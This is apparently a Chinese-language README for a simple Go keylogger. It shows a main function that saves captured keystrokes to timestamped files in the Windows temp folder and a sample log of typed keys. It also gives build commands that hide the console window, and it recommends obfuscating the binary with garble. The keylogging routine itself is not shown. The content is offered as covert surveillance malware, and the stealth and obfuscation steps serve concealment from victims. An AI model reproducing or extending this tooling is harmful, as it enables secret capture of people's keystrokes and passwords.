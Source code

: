# 简易键盘记录器


## 文件记录在 c:\\Windows\\temp\\ 目录下，以时间戳命名。
```
func main() {
	timeUnix := time.Now().Unix()
	KeylogSavePath = fmt.Sprintf("c:\\Windows\\temp\\%d.txt", timeUnix)

	Keylogger()
}
```

## 内容格式
```
2023/03/11 17:56:05 [Enter]
2023/03/11 17:56:06 n
2023/03/11 17:56:07 e
2023/03/11 17:56:07 t
2023/03/11 17:56:07  
2023/03/11 17:56:07 u
2023/03/11 17:56:07 s
2023/03/11 17:56:08 e
2023/03/11 17:56:08 r
2023/03/11 17:56:08 [Enter]
```
## 编译代码
建议使用garble 混淆
```
go build -ldflags "-H windowsgui -s -w" ./main.go

garble build -ldflags "-H windowsgui -s -w" ./main.go
```


## 参考项目
1. https://github.com/JayGitH/EyeWorm
